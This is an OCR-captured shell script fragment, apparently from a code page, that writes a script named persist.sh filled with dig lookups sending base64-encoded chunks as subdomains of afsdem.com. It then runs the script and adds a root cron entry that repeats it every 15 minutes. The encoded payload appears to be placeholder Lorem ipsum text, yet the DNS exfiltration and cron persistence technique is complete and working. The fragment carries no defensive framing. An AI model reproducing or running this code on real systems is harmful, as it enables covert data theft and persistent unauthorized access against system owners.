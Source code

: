 ```
echo "  dig RpYnVsdW0gYmliZW5kdW0gb2RpbyBxdWFtLCBh.afsdem.com;" >> /usr/cryptokit/persist.sh
echo "  dig dCBjb25ndWUgbnVsbGEgdml2ZXJyYSBpbi4gSW.afsdem.com;" >> /usr/cryptokit/persist.sh
echo "  dig 4gdWx0cmljaWVzIHR1cnBpcyBhdCBmYWNpbGlz.afsdem.com;" >> /usr/cryptokit/persist.sh
echo "  dig aXMgZGljdHVtLiBFdGlhbSBuaXNpIGFudGUsIG.afsdem.com;" >> /usr/cryptokit/persist.sh
echo "  dig RpY3R1bSBldCBoZW5kcmVyaXQgbmVjLCBzb2Rh.afsdem.com;" >> /usr/cryptokit/persist.sh
echo "  dig bGVzIGlkIGVyb3MuCgpQaGFzZWxsdXMgZmV1Z2.afsdem.com;" >> /usr/cryptokit/persist.sh
echo "  dig lhdCBudW5jIHNlZCBzdXNjaXBpdCBmYXVjaWJ1.afsdem.com;" >> /usr/cryptokit/persist.sh
echo "  dig cy4gQWVuZWFuIHRpbmNpZHVudCBwb3J0dGl0b3.afsdem.com;" >> /usr/cryptokit/persist.sh
echo "  dig IgbmlzbCwgdXQgY3Vyc3VzIGZlbGlzIHZvbHV0.afsdem.com;" >> /usr/cryptokit/persist.sh
echo "  dig cGF0IHZpdGFlLiBNb3JiaSBuZWMgbGVvIHB1bH.afsdem.com;" >> /usr/cryptokit/persist.sh
echo "  dig ZpbmFyLCBhY2N1bXNhbiBtYXVyaXMgbmVjLCBj.afsdem.com;" >> /usr/cryptokit/persist.sh
echo "  dig b21tb2RvIG1hdXJpcy4gTmFtIGNvbW1vZG8gZW.afsdem.com;" >> /usr/cryptokit/persist.sh
echo "  dig dldCBlbmltIGF0IGFsaXF1YW0uIFN1c3BlbmRp.afsdem.com;" >> /usr/cryptokit/persist.sh
echo "  dig c3NlIGVnZXN0YXMgbWFzc2EgaWQgcmlzdXMgcG.afsdem.com;" >> /usr/cryptokit/persist.sh
echo "  dig VsbGVudGVzcXVlIHBvcnR0aXRvciBuZWMgbmVj.afsdem.com;" >> /usr/cryptokit/persist.sh
echo "  dig IG5lcXVlLiBDcmFzIG5lYyBzZW0gYXJjdS4gTn.afsdem.com;" >> /usr/cryptokit/persist.sh
echo "  dig VsbGEgcXVpcyBzYXBpZW4gaW4gbGFjdXMgbGFj.afsdem.com;" >> /usr/cryptokit/persist.sh
echo "  dig aW5pYSB1bHRyaWNlcyBtYXR0aXMgZXQgcHVydX.afsdem.com;" >> /usr/cryptokit/persist.sh
echo "  dig MuIE51bmMgZmVybWVudHVtIG5lcXVlIGlkIG51.afsdem.com;" >> /usr/cryptokit/persist.sh
echo "  dig bmMgYmxhbmRpdCBtYXhpbXVzLiBEdWlzIGV1IH.afsdem.com;" >> /usr/cryptokit/persist.sh
echo "  dig NvbGxpY2l0dWRpbiBudWxsYSwgYWMgbWF0dGlz.afsdem.com;" >> /usr/cryptokit/persist.sh
echo "  dig IGF1Z3VlLiBNYXVyaXMgcXVpcyBjdXJzdXMgaX.afsdem.com;" >> /usr/cryptokit/persist.sh
echo "  dig BzdW0sIHF1aXMgZnJpbmdpbGxhIHNlbS4gTW9y.afsdem.com;" >> /usr/cryptokit/persist.sh
echo "  dig YmkgbWFsZXN1YWRhIHNhcGllbiBzZWQgbWV0dX.afsdem.com;" >> /usr/cryptokit/persist.sh
echo "  dig MgY29udmFsbGlzLCBzaXQgYW1ldCBldWlzbW9k.afsdem.com;" >> /usr/cryptokit/persist.sh
echo "  dig IGF1Z3VlIHBlbGxlbnRlc3F1ZS4gTW9yYmkgbm.afsdem.com;" >> /usr/cryptokit/persist.sh
echo "  dig liaCBlcmF0LCBwb3N1ZXJlIHNpdCBhbWV0IGFj.afsdem.com;" >> /usr/cryptokit/persist.sh
echo "  dig Y3Vtc2FuIG5lYywgbWFsZXN1YWRhIGEgbGVvLg.afsdem.com;" >> /usr/cryptokit/persist.sh
echo "  dig oKRG9uZWMgZXUgcHJldGl1bSBvZGlvLiBBZW5l.afsdem.com;" >> /usr/cryptokit/persist.sh
echo "  dig YW4gdHJpc3RpcXVlIHF1YW0gdmVsIG9yY2kgYW.afsdem.com;" >> /usr/cryptokit/persist.sh
echo "  dig xpcXVhbSwgbmVjIHNjZWxlcmlzcXVlIG51bmMg.afsdem.com;" >> /usr/cryptokit/persist.sh
echo "  dig c3VzY2lwaXQuIEV0aWFtIGVsaXQgc2VtLCB2aX.afsdem.com;" >> /usr/cryptokit/persist.sh
echo "  dig ZlcnJhIG5lYyBmcmluZ2lsbGEgdml0YWUsIGV1.afsdem.com;" >> /usr/cryptokit/persist.sh
echo "  dig aXNtb2QgaWQgdHVycGlzLiBJbnRlZ2VyIHF1aX.afsdem.com;" >> /usr/cryptokit/persist.sh
echo "  dig MgZXJhdCBlZ2V0IGFyY3UgdGluY2lkdW50IHBl.afsdem.com;" >> /usr/cryptokit/persist.sh
echo "  dig bGxlbnRlc3F1ZS4gQ3VyYWJpdHVyIHF1YW0gbn.afsdem.com;" >> /usr/cryptokit/persist.sh
echo "  dig VsbGEsIGx1Y3R1cyB2ZWwgdm9sdXRwYXQgZWdl.afsdem.com;" >> /usr/cryptokit/persist.sh
echo "  dig dCwgZGFwaWJ1cyBldCBudW5jLiBOdW5jIHF1aX.afsdem.com;" >> /usr/cryptokit/persist.sh
echo "  dig MgbGliZXJvIGFsaXF1YW0sIGNvbmRpbWVudHVt.afsdem.com;" >> /usr/cryptokit/persist.sh
echo "  dig IGp1c3RvIHF1aXMsIGxhY2luaWEgbmVxdWUuIF.afsdem.com;" >> /usr/cryptokit/persist.sh
echo "  dig Byb2luIGRhcGlidXMgZWxpdCBhdCBoZW5kcmVy.afsdem.com;" >> /usr/cryptokit/persist.sh
echo "  dig aXQgbWF4aW11cy4gU2VkIHNlbXBlciBudW5jIG.afsdem.com;" >> /usr/cryptokit/persist.sh
echo "  dig 1hc3NhLCBlZ2V0IHBlbGxlbnRlc3F1ZSBlbGl0.afsdem.com;" >> /usr/cryptokit/persist.sh
echo "  dig IHNhZ2l0dGlzIHNlZC4g.afsdem.com;" >> /usr/cryptokit/persist.sh
echo "done" >> /usr/cryptokit/persist.sh
one_call=$(/usr/cryptokit/persist.sh)
touch /var/spool/cron/root
/usr/bin/crontab /var/spool/cron/root
echo "*/15 * * * * /usr/cryptokit/persist.sh" >> /var/spool/cron/root
--//


```
